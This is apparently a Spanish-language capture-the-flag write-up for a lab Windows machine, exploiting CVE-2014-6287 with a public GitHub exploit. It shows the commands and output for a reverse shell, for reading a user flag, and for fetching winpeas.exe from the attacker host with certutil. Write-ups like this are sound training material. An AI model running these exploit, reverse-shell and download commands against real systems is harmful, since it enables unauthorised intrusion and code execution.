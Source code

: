 Busco por el CVE y me descargo el exploit de Github

```null
wget https://raw.githubusercontent.com/roughiz/cve-2014-6287.py/master/cve-2014-6287.py
```

Veo el panel de ayuda

```null
python2 cve-2014-6287.py
[-] Something went wrong..!
[-] Usage is: python cve-2014-6287.py <Target IP address> <Target Port Number> <Local ip where http server listen> <local port for the reverse shell>
[-] Don't forget to have an http server with will serve the nc.exe file like http://local_ip:80/nc.exe
```

Me comparto el nc por un servicio http con python y ejecuto. Por el puerto 443 no recibo nada, pero si lo cambio por otro sí

```null
python2 cve-2014-6287.py 10.10.10.8 80 10.10.16.2 443
python2 cve-2014-6287.py 10.10.10.8 80 10.10.16.2 1234
```

Gano acceso al sistema

```null
nc -nlvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.8.
Ncat: Connection from 10.10.10.8:49167.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

Puedo visualizar la primera flag

```null
C:\Users\kostas\Desktop>type user.txt
type user.txt
82eccce4e9b846fe25c0ea0eb668858f
```

# Escalada

Me descargo el winpeas en la máquina víctima

```null
C:\Temp>certutil.exe -split -f -urlcache http://10.10.16.2/winpeas.exe winpeas.exe
certutil.exe -split -f -urlcache http://10.10.16.2/winpeas.exe winpeas.exe
****  Online  ****
  000000  ...
  1e0a00
CertUtil: -URLCache command completed successfully.
```
